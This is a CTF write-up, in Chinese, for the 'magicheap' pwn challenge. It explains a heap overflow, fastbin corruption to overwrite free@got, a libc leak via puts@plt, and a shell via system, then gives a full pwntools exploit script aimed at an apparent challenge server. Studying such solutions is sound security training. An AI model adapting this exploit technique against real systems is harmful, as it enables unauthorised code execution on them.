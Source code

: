 ## magicheap(250)
Credits to my teammates.

### solution
#### heap overflow
跟作業一樣，`edit()`會有任意大小overflow

#### fastbin corruption
把fastbin的下一個改成`.got.plt`的一個適合的位置，下次`malloc`時，會得到此位置，修改`free.got`

#### information leak
由於此題沒show，先將一個large chunk free掉，再`malloc()`它將其填入`8*'A'`，再將`free.got`改成`puts@plt`，就可以`puts`出main arena位置，進而算出libc

#### get shell
將`free.got`改成`system`即可get shell

### script
``` pyhton
from pwn import *

#r = process("./magicheap",env={"LD_PRELOAD":"./ais3.so.6"})
r = remote('35.201.132.60',50216)

def cre(size,cont):
	r.sendlineafter('ice :','1')
	r.sendlineafter(': ',str(size))
	r.sendafter(':',cont)

def edit(idx,size,cont):
	r.sendlineafter('ice :','2')
	r.sendlineafter(':',str(idx))
	r.sendlineafter(': ',str(size))
	r.sendafter(': ',cont)

def free(idx):
	r.sendlineafter('ice :','3')
	r.sendlineafter(':',str(idx))

r.recvuntil(":")
r.send('a')

cre(0x1000,'a') #0
cre(0x100,'a')#1
free(0)
cre(0x1000,'a'*8)#0
tar = 0x601ffa
cre(0x50,'a')#2
puts_plt = 0x4006b0
free(2)
edit(1,0x200,'a'*0x100+p64(0)+p64(0x61)+p64(tar))
cre(0x50,'sh\x00')#2
cre(0x50,'aaaaaa'+'a'*8+p64(puts_plt))#3
free(0)
r.recvuntil('a'*8)
l = u64(r.recvuntil('\n')[:-1].ljust(8,'\x00'))
libc = l - 0x3c4b78
print hex(libc)
system = libc + 0x45390
edit(3,0x100,'a'*14+p64(system))
free(2)
r.interactive()
```

